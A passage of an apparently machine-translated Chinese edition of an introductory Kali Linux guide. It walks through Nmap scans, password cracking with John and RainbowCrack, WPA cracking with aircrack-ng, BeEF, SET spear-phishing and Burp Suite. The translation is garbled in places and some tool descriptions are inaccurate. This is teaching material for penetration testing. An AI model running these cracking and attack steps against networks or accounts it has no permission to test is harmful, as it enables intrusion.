# 一、Kali Linux 即时入门

欢迎来到*即时Kali Linux*。本书旨在为您提供设置和开始使用 Kali Linux 所需的所有信息。您将学习 Kali 的基础知识、其目录结构、如何使用其常用工具等。

本文件包含以下章节：

*那么什么是 Kali Linux？*向我们介绍 Kali，一种基于 Linux 的操作系统，专门为渗透测试和计算机取证而设计。它是一些开放源代码软件的集合，专业人士和专家在处理真实的笔测试场景时使用这些软件。

*安装*帮助我们学习如何轻松下载和安装 Kali Linux，以及如何建立我们自己的笔测试实验室。

*快速入门–正确使用工具*向我们展示了如何使用 Kali 中提供的不同软件工具执行不同的任务。我们还将介绍一些使用 Kali Linux 开始笔测试之旅所必需的主题。

*您想了解的五大功能*将帮助您了解如何使用 Kali Linux 最重要的功能执行不同的任务。本节结束时，您将能够使用 Kali 的工具执行以下操作：

*   使用 Nmap 扫描和收集信息
*   使用 Aircrack 中断无线网络
*   使用 Burp 套件对 web 应用程序进行笔测试
*   Metasploit 开发框架入门
*   使用 sqlmap 执行自动 SQL 注入攻击
*   使用 Kali Linux 执行数字取证

*你应该了解的人和地方*为你提供了许多有用的项目页面和论坛链接，以及许多有用的文章、教程和博客。它还提供了到 Kali Linux 超级贡献者和开源黑客的 Twitter 提要的链接。

# 那么，什么是 Kali Linux？

在进入 Kali Linux 之前，我们需要了解什么是渗透测试。**渗透测试**或**笔测试**是评估计算机系统或计算机网络安全实现的方法。渗透测试背后的思想是用一组特定的攻击向量来确定计算机是否能够在不出现故障的情况下抵御这些攻击。pen 测试中的不同攻击向量可包括识别和利用各种应用软件和操作系统中的已知漏洞、评估连接网络的强度、提供评估报告等。渗透测试在计算机科学中有自己的研究领域。

说到渗透测试，Kali Linux 是专业人士最喜欢的操作系统。Kali 是一个基于 Linux 的高级操作系统，是一个开源软件的集合，用于执行渗透测试、计算机取证和安全审计中的不同任务。它的一些主要特点包括：

*   Kali Linux 包含 300 多个渗透测试和评估工具
*   Kali 支持多种附加硬件，如无线接收器和 PCI 硬件
*   它提供了一个完整的 C、Python 和 Ruby 开发环境
*   它是可定制和开源的

Kali 是一个可下载的 ISO，既可以作为实时操作系统使用，也可以作为独立操作系统使用。让我们继续前进，看看如何使用 Kali 建立您的渗透测试实验室。

# 安装

要开始安装，我们需要下载 Kali Linux。Kali Linux 的可用格式如下：

*   基于系统体系结构的 ISO 文件（x86 和 x64）
*   VMware 映像
*   手臂图像

Kali 既可以安装为现有操作系统的双引导，也可以设置为虚拟机。让我们先开始双引导安装过程。通过三个简单的步骤，您可以在系统上安装 Kali Linux 作为双引导选项。

## 步骤 1–下载和引导

在安装 Kali 之前，您需要检查是否具有以下所有必需元素：

*   最小 12 GB 的硬件空间
*   至少 1 GB RAM 以实现最佳性能
*   可引导设备，如光盘驱动器或 USB

检查完要求后，您可以从其官方网站[下载可引导 ISOhttp://www.kali.org/downloads](http://www.kali.org/downloads) 。

您可以选择使用您的姓名和电子邮件进行注册。下载页面将有几个选项可供选择，例如窗口管理器和系统架构。根据您的系统需求（架构等）选择值。



下载完成后，我们必须将其刻录到磁盘或 USB。磁盘/USB 应可引导，以便系统可以从中加载设置。

## 步骤 2–设置双启动

一旦我们的可引导介质准备就绪，我们将重新启动系统并从磁盘/USB 引导。我们将看到一个类似于以下内容的屏幕：



我们将首先选择**实时启动**选项。操作系统将开始加载，几分钟后，我们将第一次看到 Kali 桌面。

加载桌面后，导航至**应用程序****系统工具****管理****GParted 分区编辑器**。

这将显示当前操作系统分区的 GUI 表示。仔细调整大小，为 Kali 安装留出足够的空间（最小 12GB）。

在硬盘上调整分区大小后，请确保选择**应用所有操作**选项。退出 GParted 并重新启动 Kali Linux。

## 步骤 3–从安装开始

回到主屏幕后，选择**图形安装**。安装的最初几个屏幕将要求您选择语言、位置、键盘等。设置根密码时需要小心。Kali 的默认根密码为`toor`。

### 注

**仅限双启动**

完成此操作后，下一个重要步骤是选择要安装操作系统的分区。我们必须使用刚才使用 GParted 创建的未分配空间。

一旦选择了分区，Kali 将接管并安装操作系统。这个过程需要一些时间才能完成。安装完成后，system startup（系统启动）屏幕现在将为您提供在 Kali Linux 或其他操作系统（称为（双启动）配置）中启动的选项。

### 将 Kali 安装为虚拟机

通过虚拟化软件设置 Kali 很容易。Kali 正式提供了一个 VMware 映像，可从其官方网站（[下载 http://www.kali.org/downloads](http://www.kali.org/downloads) ）。它可以在 VMware player 开始工作时导入。

要使用 Virtual Box 设置 Kali Linux，我们需要先前下载的相同 ISO 文件和最近的 Virtual Box 设置。

要开始安装，请创建一个新的虚拟机，并设置所需的硬盘空间和 RAM。


创建机器后，启动它。第一次启动将提示我们选择一个磁盘。选择 Kali ISO 并开始安装。其余步骤与双引导安装相同。

一旦安装完成并加载桌面，我们就可以安装 VirtualBox guest additions。按照以下步骤安装来宾添加：

1.  将文件复制到以下位置：

    ```
    cp /media/cd-rom/VBoxLinuxAdditions.run /root/

    ```

2.  设置文件权限如下：

    ```
    chmod 755 /root/VBoxLinuxAdditions.run

    ```

3.  执行以下命令：

    ```
    cd /root
    ./VBoxLinuxAdditions.run

    ```

### 更新 Kali Linux

完成安装过程后，最后一步是使用最新补丁和版本更新操作系统。这将确保我们使用最新的软件包。要更新操作系统，请启动终端并向其传递以下命令：

```
apt-get update

```

## 就这样

至此，您应该已经有了一个可以正常工作的 Kali Linux 安装，并且可以自由地进行操作并发现更多关于它的信息。

# 快速入门–正确使用工具

让我们深入了解 Kali Linux 的世界，了解一些最流行的工具的基本功能。我们将从查看 Kali 使用的目录结构开始。

## 了解内存布局

Kali 遵循一种类似于基于 Ubuntu 的 Linux 的目录结构。需要寻找的一些重要位置包括：

*   `/etc/`：包含已安装工具的配置文件
*   `/opt/`：包含 Metasploit 及其相关模块
*   `/sys/`：包含外部硬件和接口的配置文件
*   `/root/`：根用户目录
*   `/lib/`: Contains libraries dependent on the operating system

    

用于渗透测试和评估的大多数工具和软件可从桌面上的**应用程序**菜单中找到。该列表根据工具的可用性进行逻辑排列。要访问它们，请浏览**应用程序****Kali Linux**。

## 使用 Kali Linux 进行信息收集和嗅探

Kali Linux 包含一组专用工具，可以帮助收集信息。Nmap（网络端口映射器）、DNSmap 和 Trace 是其中的一些重要工具。让我们介绍一下特定类别中的一些工具。

### DNSmap 分析

**域名系统**（**DNS**）是连接到互联网的服务器/资源的分层分布式命名系统。域名用于访问该特定服务。例如，[www.packtpub.com](http://www.packtpub.com)用于访问 Packt Publishing 托管的 HTTP 服务器。让我们看看 Kali 中提供的 DNSmap 工具。

DNSmap 是一种用于发现与给定域关联的所有子域的工具。在终端上传递以下命令将显示[www.rediff.com](http://www.rediff.com)的完整 DNS 映射：

```
root@kali:~#dnsmap rediff.com

```



### 网络扫描器

网络扫描程序用于枚举公用或专用网络，并获取有关该网络的信息。

**Nmap**是目前最流行的信息收集工具。它是一个功能强大的工具，用于扫描计算机或整个网络中的开放端口以及这些端口上运行的服务。这些信息对于专业审计员和 pen 测试员来说非常有用，因为他们可以针对特定的服务来损害目标。传递以下命令将列出各种可用的扫描选项：

```
root@kali:~#namp –h

```

可以使用以下命令启动简单的 UDP 扫描：

```
root@kali:~#namp –sU 192.168.5.0-255

```

### 检测活主机

**Fping**是一种常用工具，用于识别给定主机是否连接到网络。

```
root@kali:~#fping google.com
google.com is live

```

### SSL 分析

**SSLScan**是一个快速 SSL 端口扫描程序，它连接到 SSL 端口，确定支持哪些密码和 SSL 协议，并返回 SSL 证书。

### 网络嗅探

**Dsniff**是一个工具集合，可以执行各种各样的嗅探任务。这些工具的工作原理是被动地监视网络流量，以获取感兴趣的数据，如密码、密钥传输和电子邮件。这个套件中的一些工具包括 urlsnarf、webpy、mailsnarf 等等。

**Netsniff**是一款专为 Linux 平台设计的快速、健壮的网络工具包。它可以用于网络开发分析、调试、审计等。netsniff ng 是一款基于分组 mmap（2）机制的快速网络分析仪。它可以将`.pcap`文件刻录到光盘上，进行回放，还可以进行离线和在线分析。

## 使用脆弱性评估工具

漏洞评估工具在渗透测试中起着非常重要的作用。这些工具有助于 pen 测试人员分析当前系统中的漏洞和弱点。可以根据需求对各种服务和软件执行漏洞评估。OpenVAS 是一个开源漏洞扫描框架，专门设计用于挖掘各种场景下的漏洞。

要开始使用 OpenVAS，请浏览**应用程序****Kali Linux****漏洞分析****OpenVAS**。

如果是第一次启动，请运行`openvas-setup`更新软件并启动所有必需的插件和依赖项。



下一步是向 OpenVAS 添加一个新用户。将以下命令传递给终端：

```
root@kali:~#openvas-adduser

```

您可以通过按*Ctrl*+*D*跳过**规则创建过程**。我们可以使用以下命令定期使用新签名和依赖项更新框架：

```
root@kali:~#openvas-nvt-sync

```

现在，我们都准备好加载框架并开始我们的评估任务。浏览至**应用程序****Kali Linux****漏洞分析****OpenVAS****OpenVAS gsd**。这将启动 GUI 框架并提示输入登录详细信息。输入先前设置的凭据并提供本地服务器地址。



登录后，您可以开始扫描过程。要开始第一次扫描，请导航至**任务****新**。填写任务名称和所需的扫描模式，如以下屏幕截图所示：


创建任务后，您将注意到该任务列在界面的底部。点击**开始**按钮开始扫描。

## Kali网络应用渗透测试

网络应用程序现在是当今万维网的重要组成部分。保持它们的安全是网站管理员的首要关注点。从头开始构建 web 应用程序可能是一项乏味的任务，代码中可能存在可能导致安全漏洞的小错误。这就是 web 应用的切入点，帮助您保护应用程序。Web 应用程序渗透测试可以在多个前端（如前端接口、数据库和 Web 服务器）实施。让我们利用 Kali 的一些重要工具的强大功能，这些工具在 web 应用程序渗透测试期间可能会有所帮助。

### WebScarab 代理

**WebScarab**是一个 HTTP 和 HTTPS 代理拦截器框架，允许用户在将请求发送到服务器之前查看和修改浏览器创建的请求。类似地，从服务器接收的响应可以在反映到浏览器中之前进行修改。新版本的 WebScarab 具有许多更高级的功能，如 XSS/CSRF 检测、会话 ID 分析和模糊化。按照以下三个步骤开始使用 WebScarab：

1.  要启动 WebScarab，请浏览**应用程序****Kali Linux****Web 应用程序****Web 应用程序代理****WebScarab**。
2.  Once the application is loaded, you will have to change your browser's network settings. Set the proxy settings for IP as `127.0.0.1` and **Port** as **8008**:

    

3.  Save the settings and go back to the WebScarab GUI. Click on the **Proxy** tab and check **Intercept requests**. Make sure that both **GET** and **POST** requests are highlighted on the left-hand side panel. To intercept the response, check **Intercept responses** to begin reviewing the responses coming from the server.

    

### 使用 sqlninja 攻击数据库

sqlninja 是一种流行的工具，用于测试 Microsoft SQL Server 中的 SQL 注入漏洞。数据库是 web 应用程序不可分割的一部分，因此，即使是其中的一个缺陷也可能导致信息的大规模泄露。让我们看看 sqlninja 如何用于数据库渗透测试。

要启动 SQL ninja，请浏览**应用程序****Kali Linux****Web 应用程序****数据库开发****sqlninja**。

这将启动带有 sqlninja 参数的终端窗口。要查找的重要参数是`mode`参数或`–m`参数：


`–m`参数指定我们要在目标数据库上执行的操作类型。让我们传递一个基本命令并分析输出：

```
root@kali:~#sqlninja –m test
Sqlninja rel. 0.2.3-r1
Copyright (C) 2006-2008 icesurfer 
[-] sqlninja.conf does not exist. You want to create it now ? [y/n]

```

这将提示您设置配置文件（`sqlninja.conf`。您可以传递相应的值并创建配置文件。完成后，就可以执行数据库渗透测试了。

### Websploit 框架

Websploit 是一个开源框架，旨在对 web 应用程序进行漏洞分析和渗透测试。它与 Metasploit 非常相似，并集成了许多插件以添加功能。

要启动 WebPloit，请浏览**应用程序****Kali Linux****Web 应用程序****Web 应用程序模糊器****WebPloit**。


我们可以从更新框架开始。在终端上传递更新命令将开始更新过程，如下所示：

```
wsf>update
[*]Updating Websploit framework, Please Wait…

```

更新完成后，您可以通过传递以下命令检出可用模块：

```
wsf>show modules

```

让我们针对[www.target.com](http://www.target.com)启动一个简单的目录扫描模块，如下所示：

```
wsf>use web/dir_scanner
wsf:Dir_Scanner>show options
wsf:Dir_Scanner>set TARGET www.target.com
wsf:Dir_Scanner>run

```


执行 run 命令后，它将启动攻击模块并显示结果。类似地，我们可以根据场景的需求使用其他模块。

## 破解密码

密码是计算机系统中最常用的身份验证技术。打破它们可以直接进入系统，并可以为您提供所需的权限提升。Kali 附带了几种工具，可用于离线或在线破解密码。让我们看看 Kali 中一些重要的密码破解工具，并讨论它们的操作模式。

### 开膛手约翰

**John the Ripper**是一款免费、快速的密码破解工具，可以有效地用来破解脆弱的 Unix 密码、Windows LM 哈希、DES、Kerberos 和许多更神秘的方法。

用 John 破解密码可以通过暴力破解技术完成，其中加密密码可以在文件中提供。或者，我们也可以提供密码的单词列表，我们可以对其应用暴力技术来匹配密码。

要启动开膛手约翰，请浏览**应用程序****Kali Linux****密码攻击****离线攻击****约翰**。


要对密码文件发起暴力攻击，可以传递以下命令：

```
root@kali:~#john pwd

```

这里`pwd`是密码文件的名称。

要检索破解的密码，请传递以下命令：

```
root@kali:~#john –show pwd

```

您还可以提供存储密码的单词列表：

```
root@kali:~#john --wordlist=password.lst --rules pwd

```

### 处理彩虹裂纹

**RainbowCrack**是比 John 更快的密码破解工具。RainbowCrack 基于使用彩虹表的概念，彩虹表是几乎所有可能密码的预生成哈希的巨大集合。用户输入哈希作为 RainbowCrack 的输入，除非找到匹配项，否则它将匹配 RainbowCrack 表的哈希。事实证明，这种技术比暴力更有效、耗时更少。

要启动 RainbowCrack，请浏览**应用程序****Kali Linux****密码攻击****离线攻击****RainbowCrack**。


示例命令如下所示：

```
rcrack *.rt –l hash.txt

```

此命令启动 RainbowCrack 并使用通配符搜索（`*`）查找彩虹表；要破解的哈希是从`hash.txt`文件中选取的。

## 针对无线网络

无线网络是网络中连接计算机的主要手段之一。这为该领域的安全测试创造了广泛的范围。我们在无线网络上执行的渗透测试类似于有线网络。唯一的区别在于设备和协议的连接方式。Kali 附带了许多有用的工具，可以简化无线网络的测试和评估过程。让我们快速看一下其中的一些。

### 与 Kismet 合作

Kismet 是一种无线网络检测器/嗅探器，可用于跟踪无线通信介质上的数据流。Kismet 通过被动收集数据包和检测网络来识别网络，这使得它能够通过数据流量检测隐藏的网络和非信标网络的存在。

Kismet 可以从**应用程序****Kali Linux****无线攻击****无线工具****Kismet**启动。



终端加载后，输入`kismet`并按*键进入*。您将看到一个介绍性屏幕。回答问题以启动服务器。如果您是第一次运行它，它将要求您选择一个接口。


添加您的无线接口（默认为`wlan0`，选择**添加**，如下图所示：。



一旦添加接口，Kismet 将开始报告可访问的无线网络。您可以选择其中任何一个来开始捕获流经它的数据。



这是一个关于如何使用 Kismet 识别无线网络和被动嗅探网络上数据的快速教程。

### 蕨类 WIFI 饼干

Fern 是一种基于 Wi-Fi 审计 GUI 的工具，能够破解和恢复 WEP/WPA/WPS 密钥，还可以在基于无线或以太网的网络上运行其他基于网络的攻击。此工具是使用 python 语言开发的。要使用 Fern，您应该预先安装一些工具，如 Aircrack、Python Scrapy 和 Reaver。Kali 已经预装了这些工具，所以您不必担心安装它们。蕨类植物的一些重要特征包括：

*   WEP 通过碎片、切碎、咖啡拿铁、Hirte、ARP 请求重播或 WPS 攻击进行破解
*   使用字典或基于 WPS 的攻击进行 WPA/WPA2 破解
*   成功破解后自动保存数据库中的密钥
*   自动接入点攻击系统
*   会话劫持（被动和以太网模式）
*   用于地理位置跟踪的接入点 MAC 地址

要启动 fern，请浏览**应用程序****Kali Linux****无线攻击****无线工具****fern WIFI Cracker**。

加载 GUI 后，从下拉菜单中选择您的界面。几分钟后，GUI 将开始反映附近的 Wi-Fi 网络的密码安全性（WPA、WEP 等）。


一旦出现扫描设置弹出窗口，点击**确定**继续。几分钟后，将发起攻击，任何成功的裂缝都将由 Fern 报告。

### 蓝牙审计

Kali 还提供了审核蓝牙网络模式的选项。蓝牙是移动网络和几乎所有支持蓝牙的现代设备中最常用的数据传输方式。因此，审核蓝牙对网络管理员来说至关重要。我们将简要介绍 BlueRanger。

#### 蓝骑兵

**BlueRanger**是一个简单的 Bash 脚本，它使用**链接质量**来定位蓝牙无线电设备。它发送 L2CAP（蓝牙）ping 以在蓝牙接口之间创建连接，因为大多数设备允许 ping 而无需任何身份验证或授权。

要开始使用 BlueRanger，请浏览**应用程序****Kali Linux****无线攻击****蓝牙工具****BlueRanger**。


在终端上启动**蓝牙网络 PAS**的枚举，如上图`SYNOPSIS`所示。示例命令可以是：

```
root@kali:~#blueranger.sh hci0 6C:D4:8A:B0:20:AC

```

执行该命令后，Bash 脚本将开始 ping 范围内的设备。每次 ping 后屏幕将刷新。它将报告附近的设备、ping 计数、接近度变化、范围等。

## 开发框架和工具

开发框架是渗透测试人员的核心和灵魂。它使他们能够使用单个框架轻松管理评估。Kali Linux 将这些框架集成到其核心中，以确保它们以最佳方式运行。在本节中，我们将介绍 Kali Linux 中的一些重要利用框架。

### 浏览器开发框架

**浏览器开发框架**（**BeEF**是一个流行的开源框架，专门为审核 web 浏览器而设计。通过**应用程序****Kali Linux****开发工具****牛肉开发框架****牛肉**发布牛肉。这将在以下位置启动浏览器：

```
http://127.0.0.1:3000/ui/panel/
```

在下一步中，将要求您进行身份验证。默认用户名和密码分别为 beef 和 beef。

Kali 的初始版本没有安装 BeEF。在这种情况下，请使用以下命令获取牛肉的最新副本：

```
root@kali:/# apt-get update
root@kali:/# apt-get install beef-xss

```

安装完成后，我们可以切换到其目录并使用以下命令启动 BeEF：

```
 root@kali:/# cd /usr/share/beef-xss
 root@kali:/# ./beef

```

加载欢迎页面后，您可以点击**演示**链接开始获取正式的**入门**教程。


BeEF 的左侧面板将反映插件已挂接并准备就绪的浏览器。您会注意到顶部有不同的选项卡。让我们快速看一下。

*   **入门**：这是我们刚才在前面几段中看到的欢迎页面。
*   **日志**：显示不同浏览器的动作。
*   **Current Browser**: This is the main tab to look for. It contains details about the current working browser. It contains six different subtabs with additional information and actions.

    

    这些子选项卡如下所示：

    *   **细节**：它代表了浏览器的每一个细节：它的插件、钩住的页面等等。
    *   **日志**：表示浏览器动作的日志。
    *   **命令**：包含不同的模块，我们可以在浏览器上执行。
    *   **附文**：此选项卡允许我们代表挂接的浏览器提交任意 HTTP 请求。
    *   **XssRays**：这是在钩住的浏览器上查找 XSS 攻击的任何可能性。

简而言之，我们刚刚看到了牛肉的基本信息。您可以开始在自己的 web 应用程序中使用 BeEF，也可以从添加了 BeEF 的演示课程开始，以获得更多的框架知识。

### 社会工程师工具包

**社会工程师工具包**（**集合**）是一款流行的命令行工具，可以针对特定用户设置攻击场景。它根据其自定义设置选项构建场景，并允许攻击者利用其功率并构建攻击向量。攻击向量的成功完全依赖于人的因素；因此，它被命名为社会工程师工具包。要启动 SET，请导航至**应用程序****Kali Linux****开发工具****社会工程工具包****se 工具包**。


您可以从选项的菜单中选择首选攻击模式来框定攻击。让我们选择`1`。

在这里，您可以找到多个可供选择的攻击选项。我们先选择**鱼叉式钓鱼攻击向量**，然后选择**创建社会工程模板**。此选项使您能够构建自己的集合模板以发起攻击。



此外，还可以启动基于网站的攻击向量、java 小程序攻击等。SET 是一个非常有用且友好的工具，可以为渗透测试提供多种选择。SET 还利用 Metasploit 框架的强大功能来构建有效负载、计量表连接、外壳等。

## 使用取证工具

Kali 拥有一套详尽的免费法医工具，可用于调查受感染的系统。与渗透测试相比，取证扮演着完全不同的角色。在法医分析中，我们试图分析突破的根本原因，而在渗透测试中，我们执行实际的突破过程。让我们快速浏览一下 Kali Linux 中可用的一些重要取证工具。

### 尸检法医浏览器

尸检是法医分析员非常有用的工具。它是一个基于 GUI 的工具，以时间轴的方式生成操作系统上发生的事件的详细报告。这使得将一种发病率与另一种发病率联系起来更加容易。它是一种快速而健壮的工具，可用于调查系统中的任何恶意行为。它的一些共同特点包括：

*   时间轴分析
*   文件系统分析
*   从各种浏览器中提取历史记录、cookie 和书签
*   散列过滤

导航至**应用程序****Kali Linux****取证****数字取证****尸检**即可启动尸检。

您可以通过定位`localhost:9999/autopsy/`URL 从浏览器启动 GUI。



加载 GUI 后，您可以通过点击**新建案例**来构建新案例。将打开一个新窗口，如以下屏幕截图所示：


填写初始详细信息，如**病例名称**、**描述**、**研究者姓名**。在最后阶段，将要求您添加图像。提供要调查的图像的完整路径以及图像类型和导入方法。现在你们都准备好开始调查你们的目标了。

正在调查的图像的大多数属性将列在 GUI 的左侧窗格中。**Images**节点反映目录结构。**视图**节点反映文件类型的数据。**结果**节点显示**摄取**模块的输出。**摄取**模块按优先顺序分析多个文件。这是您可以通过整个系统了解系统中的时间线变化并识别任何潜在威胁的方式。在我们不知道感染根源的情况下，尸检是一个非常方便的工具。

### 侦探装备

**侦探工具包（TSK）**是一组库，可用于调查数字取证的磁盘图像。侦探工具包的库可以与其他取证工具合并，以便它们可以协同工作来执行取证。验尸是侦探工具包的图形化版本。此工具包的一些重要工具如下所示：

*   `icat`：此工具将显示图像中文件的内容
*   `blkls`：此工具用于提取未分配的磁盘空间
*   `fsstat`：该工具用于确定信息的碎片位置
*   `fls`：此工具用于从图像中删除文件

这些是本工具包中的一些有用工具，可在各种情况下用于执行法医调查。

本文概述了在各种情况下可用于执行从信息收集到法医调查等不同任务的一些重要工具。Kali收集了 300 多种工具。涵盖所有这些都超出了本书的范围，但对本节中列出的工具的良好理解在任何情况下都会有很大帮助。在本书的下一节中，我们将详细介绍一些工具。

# 您需要了解的五大功能

当您开始使用 Kali Linux 时，您会意识到可以用它做各种各样的事情。本节将向您介绍 Kali 中最常用的任务和功能。

## 与 Nmap 进行信息收集

信息收集是渗透测试的第一步。在这个阶段，我们尝试收集尽可能多的目标信息。Nmap 是扫描和收集信息的首选工具。打开控制台并传递`nmap`命令即可启动 Nmap。这将显示可与 Nmap 一起使用的不同参数和范围的列表。让我们与他们中的少数人合作。

*   To scan a single IP, use the following command:

    ```
    root@kali:~#nmap 192.168.56.1

    ```

    此命令的输出显示在以下屏幕截图中：

    

*   要扫描网络中的一系列 IP 地址，请使用以下命令：

    ```
    root@kali:~#nmap 192.168.56.1-255

    ```

*   要在目标上扫描特定端口号，请使用以下命令：

    ```
    root@kali:~#nmap 192.168.56.1 –p 80

    ```

*   要在整个子网中扫描特定端口范围的端口范围，请使用以下命令：

    ```
    root@kali:~#nmap 192.168.56.0/24 –p 1-1000

    ```

*   要从扫描中排除特定主机或多台主机，请使用以下命令：

    ```
    nmap 192.168.56.0/24 --exclude 192.168.1.5
    nmap 192.168.56.0/24 --exclude 192.168.1.5,192.168.1.254

    ```

*   要执行快速扫描，请使用以下命令：

    ```
    nmap -F 192.168.56.1

    ```

*   要扫描操作系统及其版本的信息，请使用以下命令：

    ```
    nmap -A 192.168.56.1
    nmap -v -A 192.168.56.1

    ```

*   要检查目标网络/IP 上是否有防火墙，请使用以下命令：

    ```
    nmap -sA 192.168.1.254

    ```

*   对于防火墙，Nmap 有一个特定的参数来扫描目标，可以使用以下命令完成：

    ```
    nmap -PN 192.168.1.1

    ```

*   要增加详细程度并查看是否发送/接收所有数据包，请使用以下命令：

    ```
    nmap --packet-trace 192.168.1.1

    ```

*   要检测远程目标上运行的不同服务，请使用以下命令：

    ```
    nmap –sV 192.168.56.1

    ```

*   要使用 TCP ACK（PA）或 TCP SYN（PS）数据包扫描目标，请使用以下命令：

    ```
    nmap –PA 192.168.56.1
    nmap –PS 192.168.56.1

    ```

*   要启动隐蔽扫描，我们将使用以下命令使用 TCP SYN 扫描：

    ```
    nmap –sS 192.168.56.1

    ```

*   为了找出远程目标上运行的各种 TCP 服务，我们使用以下命令使用 TCP 连接扫描：

    ```
    nmap –sT 192.168.56.1

    ```

*   对于 UDP 扫描，我们使用以下`nmap`命令：

    ```
    nmap –sU 192.168.56.1

    ```

*   所有这些扫描结果都可以使用以下命令直接保存到文本文件中：

    ```
    nmap –sU 192.168.56.1 > scan.txt

    ```

这些是一些在信息收集和扫描时非常方便的重要命令。Nmap 提供了将这些不同的扫描参数链接到单个扫描中的功能，从而使该过程更加先进和复杂。

## 使用 Aircrack 破解无线密码

在本节中，我们将详细介绍如何使用 Kali Linux 破解无线密码。我们已经在*Fern WIFI cracker*部分介绍了 Fern WIFI cracker 的使用；我们看到这是一个自动破解密码的工具，但它的范围是有限的。在这里，我们将手动执行每个步骤，以了解如何破解 Wi-Fi 密码。在开始之前，我们必须确保我们的无线网卡支持数据包注入。你可以在谷歌上搜索你的 Wi-Fi 硬件，看看它是否支持数据包注入。有几种基于 USB 的无线网卡可以完成此任务。

按照以下步骤开始破解 Wi-Fi 密码：

1.  Identify the wireless network.

    首先，我们将使用`iwconfig`命令检查无线网络的接口。

    

    无线网卡默认列为`wlan0`。如果未启用无线网卡，请使用以下命令：

    ```
    root@kali:~#Ifconfig wlan0 up

    ```

2.  Begin scanning.

    要扫描附近的范围内 Wi-Fi 网络，请传递以下命令并分析输出：

    ```
    root@kali:~#iwlist wlan0 scan

    ```

    输出将列出范围内 Wi-Fi 网络的若干详细信息，例如其 ESSID 名称、MAC 地址和加密密钥状态。

    

    现在，您可以从列表中选择目标并记录其详细信息，如通道号和 MAC 地址，这些信息将在以后的步骤中使用。

3.  Setting up the monitoring mode.

    在此步骤中，我们将配置无线网卡的**监控**模式。这将使卡能够检查空气中流动的所有数据包。为此，我们将使用`airmon-ng`。它是一个命令行工具，用于将无线网卡设置为监控模式。我们将传递以下命令：

    ```
    root@kali:~#airmon-ng start wlan0

    ```

    

    现在，要验证无线网卡是否在监视器模式下处于活动状态，请使用`ifconfig`命令。您将注意到一个名为`mon0`的新接口。这是我们的监控界面。

4.  Capturing packets.

    现在我们都准备好开始捕获流经目标网络的数据包。我们将为此使用`airodump-ng`。命令格式如下：

    ```
    airodump-ng -c (channel) -w (file name) -–bssid (bssid) mon0

    ```

    一旦您传递了命令以及相应的参数详细信息，您将注意到无线网卡将开始从我们的目标网络捕获数据包。

    

    让它运行几分钟，除非它捕获了 10000 多个信标。

5.  Cracking the password.

    一旦关闭数据包捕获过程，您将注意到一些新文件将在根目录中创建。重要文件是用于破解密码的`*.cap`文件（`crack-01.cap`。接下来，我们将使用`aircrack-ng`和字典开始破解密码。可以使用的常用词典是`dark0de.lst`；可从[下载 http://www.filecrop.com/darkc0de.lst.html](http://www.filecrop.com/darkc0de.lst.html) 。

    下载词典后，可以传递以下命令：

    ```
    root@kali:~#aircrack-ng crack-01.cap –w dark0de.lst

    ```

    

    几分钟后，如果发现字典匹配，它将反映在终端上。此攻击的成功与否取决于密码强度和用于攻击的字典。在启动`aircrack-ng`之前，最好捕获尽可能多的数据包。

## 使用 Burp 套件进行 Web 应用渗透测试

Burp 套件是另一种流行的工具，广泛用于审核 web 应用程序。它有免费版和商业版两种，功能各异。Kali Linux 预装了免费版本的 Burp Suite。它可以从**应用程序****Kali Linux****Web 应用程序****Web 应用程序模糊器****Burp Suite**启动。

Burp Suite 的一些关键功能包括：

*   可以通过浏览器分析不同请求/响应的拦截代理
*   支持应用程序的爬行器，用于对应用程序的内容进行爬网
*   用于识别弱点和漏洞的 Web 应用程序扫描程序
*   创建和保存工作区
*   通过集成自定义插件实现工具的可扩展性

Burp Suite 是在一个屋顶下的多个工具的组合，它们相互配合工作。让我们了解一下 Burp Suite 的一些常见功能。

### 打嗝代理

Burp proxy 是一个拦截代理，它读取通过浏览器发送的所有请求/响应。它充当一个中间的人 T2 攻击向量。要开始使用 Burp 代理，我们必须更改浏览器的网络设置，以绕过通过代理的流量。启动浏览器的网络设置，代理地址为`localhost`，端口为**8000**。


现在，浏览器已全部设置为通过 Burp 代理通过 HTTP 进行通信。您可以通过选择**代理**选项卡并选择**选项**子选项卡来查看代理首选项。截获将反映通过浏览器通过 HTTP 捕获的任何通信。**历史记录**选项卡显示捕获通信的时间线。



您可以从**选项**选项卡更改代理首选项。现在让我们讨论一下 Burp spider 的工作原理。

### 打嗝蜘蛛

Burp Spider 是一种爬行工具，可以查找链接到网站的每个网页。它从主页开始爬行，或者从作为输入的任何页面开始爬行，然后通过跟随与该页面连接的超链接来爬行。最后，它表示来自的树中的完整链。可以从**选项**选项卡配置打嗝卡盘。您可以选择爬网程序要遍历的最大深度、要爬网的 HTML 字段、应用程序登录名、线程数等。

### 打嗝入侵者

Burp 入侵者是一个强大的工具，可以自动对 web 应用程序发起定制攻击。它允许用户建立一个**攻击**向量的模板，并自动执行操作。

Burp 入侵者有四个重要标签，即**目标**、**位置**、**有效载荷**和**选项**。


**目标**选项卡用于选择应用程序的目标地址。对于本地测试，可设置为`127.0.0.1`。

**位置**选项卡用于选择应用攻击模板的位置。它可以是请求、表单字段、参数等。有各种各样的攻击模板，如狙击手攻击、击锤攻击、干草叉攻击和集束炸弹。

Apple T0.有效载荷 SurtT1。Tab 用于设置需要在所选位置应用的攻击向量。例如，可以通过选择位置作为登录表单并选择有效负载作为注入字符串来应用 SQL 注入攻击。

**选项**选项卡可用于应用额外设置，如线程计数、重试次数和存储结果。

这是一个快速教程，涵盖了 Burp Suite 的一些基本功能。强烈建议针对任何 web 应用程序以实用的方式实现该工具，以进一步了解其功能。

## 元 Sploit 开发框架

Metasploit 是一个免费的开源渗透测试框架，由*H.D.Moore*于 2003 年启动，后来被 Rapid7 收购。框架的当前稳定版本是使用 Ruby 语言编写的。它拥有世界上最大的测试漏洞数据库，每年收到超过一百万次下载。它也是迄今为止用 Ruby 构建的最复杂的项目之一。它有免费和商业许可产品两种形式。

Metasploit 基于模块化体系结构，其所有模块和脚本都以模块的形式与框架集成。这使得将任何新的自定义模块与框架集成并利用其功能变得相当容易。

### 变质岩的特征

以下是 Metasploit 的一些功能：

*   **框架基础**：Metasploit 拥有丰富的基础，提供渗透测试期间所需的大量功能。它的一些基本功能包括日志记录、配置、数据库存储、MeterMeter 脚本等。
*   **辅助模块**：这是 Metasploit 的主要功能之一。辅助模块是特定的功能模块，可以在开发前和开发后执行各种任务。它的一些主要功能包括扫描、信息收集、发起特定攻击、操作系统检测、服务检测等。
